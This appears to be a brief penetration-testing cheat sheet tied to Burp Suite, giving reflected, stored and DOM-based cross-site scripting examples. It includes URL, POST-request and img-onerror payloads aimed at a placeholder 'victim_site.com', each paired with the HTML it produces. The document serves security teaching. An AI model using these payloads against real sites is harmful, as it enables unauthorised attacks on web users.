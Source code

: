```yaml
---
title: Burp Suite
desc: Security testing tool for web applications.
tags: [ActiveRecon, BrokenAccessControl, OAuth, Password, SQLi, SSRF, XSS]
alts: [OwaspZap]
website: https://portswigger.net/burp
---
```


## XSS (Cross-site scripting)

### 1. Reflected XSS

```html
https://victim_site.com/item?id=<script>alert(1)</script>

<!-- ------------------------------------------------ -->

<p><script>alert(1)</script></p>
```

### 2. Stored XSS

```html
POST /post/comment HTTP/1.1
Host: victim_site.com
Content-Length: 52

id=2&message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E

<!-- ---------------------------------------------------- -->

<p><script>alert(1)</script></p>
```

### 3. DOM XSS

```html
<img src=1 onerror='alert(1)' />

<!-- ---------------------------------------------------- -->

<p>
    Search result for <img src=1 onerror='alert(1)' />
</p>
```